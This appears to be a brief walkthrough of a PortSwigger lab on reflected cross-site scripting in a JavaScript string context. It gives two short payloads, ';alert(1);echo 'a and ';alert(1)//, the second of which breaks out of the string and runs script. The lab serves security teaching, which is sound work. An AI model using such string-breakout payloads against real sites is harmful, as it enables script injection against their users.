 References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts

![img](media/c598e7d8a7dbc44ca38a92c0374b05ea.png)

When we search “aaaa”, it generates a page with the following code:

![img](media/f855d0ef5b89395d384a460b5b99aaea.png)

With a payload like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
';alert(1);echo 'a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We see the code is now:

![img](media/6c85cc4b8f2494715dcbc86ff5bfc25f.png)

With this payload the alert pops:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
';alert(1)//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/a1b4bc32e92d1eb57be94f46cd9c1184.png)
